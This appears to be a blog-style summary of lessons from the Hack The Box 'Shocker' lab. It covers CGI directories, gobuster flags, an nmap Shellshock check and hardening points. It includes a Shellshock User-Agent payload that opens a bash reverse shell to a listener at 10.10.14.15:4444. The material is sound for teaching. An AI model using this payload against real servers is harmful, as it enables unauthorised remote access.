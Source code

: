```yaml
---
layout: single
title: "Shocker - HTB"
permalink: /shocker/
tags: [HTB, Bash, Shellshock]
toc: true
---
```

Instead of doing a writeup I have opted to write a summary of the things that I learnt from solving the Shocker of Hack The Box.

## Cgi-Bin

In computing, Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications (also called command-line interface programs) running on a server that generates web pages dynamically.  Such programs are known as CGI scripts or simply as CGIs.

Shellshock Script vulnerability affected web servers utilizing CGI

The path to "cgi-bin" directory is: `/var/www/html/ex/example.com/cgi-bin`
On Ubuntu, the standard cgi-bin directory is `/usr/lib/cgi-bin`.

## Gobuster -f

Sometimes a directory bursting tool may fail to list directories mainly because of restrition put on the files and directories. In such cases the webserver responds back with 403 status code, Indicating directory exist but you dont have permission to access it. A quick way to sort out this issue is by using the "-f" flag if the tool used was gobuster.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```
For quick discovery of files one can add the files extensions usinf the "-x" flag.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,pl
```
To list the file extensions 

## Shellshock Script / Bash Bug

ACE(arbitrary code execution) vulnerability attacks are executed on programs that are running, and require a highly sophisticated understanding of the internals of code execution, memory layout, and assembly language—in short, this type of attack requires an expert.

![upload-image]({{ "/assets/imgs/notes/shellshock.png" | relative_url }})

```python
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/4444 0>&1
```

To find out whether a target is vulnerable to shellshock, we use a nmap script.

```python
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

## Points to note

* Web server misconfiguration. one isn't allowed to access the /cgi-bin directory but is allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.
* The system was running a version of Bash that was vulnerable to the bash bug. This gave us initial foothold. Administrator should have patched the system since there is a patch already out there.
* Insecure system configuration. Administrators should conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed easy priviledge escalation of the system.